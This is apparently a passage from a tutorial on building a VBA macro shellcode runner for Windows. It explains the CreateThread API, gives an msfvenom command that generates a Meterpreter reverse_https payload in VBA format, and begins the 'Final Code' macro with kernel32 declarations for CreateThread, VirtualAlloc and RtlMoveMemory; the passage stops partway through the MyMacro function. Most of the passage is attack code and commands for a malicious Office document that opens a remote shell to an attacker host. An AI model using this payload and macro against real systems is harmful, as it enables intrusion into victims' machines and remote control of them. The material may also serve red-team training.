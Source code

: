 &nbsp;

**_CreateThread_**

Function :

    HANDLE CreateThread(
        LPSECURITY_ATTRIBUTES lpThreadAttributes,
        SIZE_T dwStackSize,
        LPTHREAD_START_ROUTINE lpStartAddress,
        LPVOID lpParameter,
        DWORD dwCreationFlags,
        LPDWORD lpThreadId
    );

Explanation :

1. Except the lpStartAddress, all the other parameters can be set to "0" as they are either not required or will be automatically set by the API itself.
2. The first two arguments are to specify non-default settings and hence are not needed.
3. The third argument is the starting address of our shellcode from where the execution will begin.
4. The fourth argument is the lpParameter and is the address for the arguments needed by the shellcode. Since we do not require this we will be setting this to 0.
5. The dwCreationFlags controls the creation of the thread, if set to 0, the thread runs immediately after creation.
6. It returns the pointer to the thread that recieves the thread identifier, if set to **NULL**, no value is returned.

&nbsp;

> Documentation :
>
> - https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread

&nbsp;

MSFVENOM command :

    msfvenom -p windows/meterpreter/reverse_https LHOST=<ip> LPORT=<port> EXITFUNC=thread -f vbapplication

&nbsp;

Final Code :

    Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr

    Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr

    Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr

    Function MyMacro()
        Dim buf As Variant
        Dim addr As LongPtr
        Dim counter As Long
        Dim data As Long
        Dim res As Long
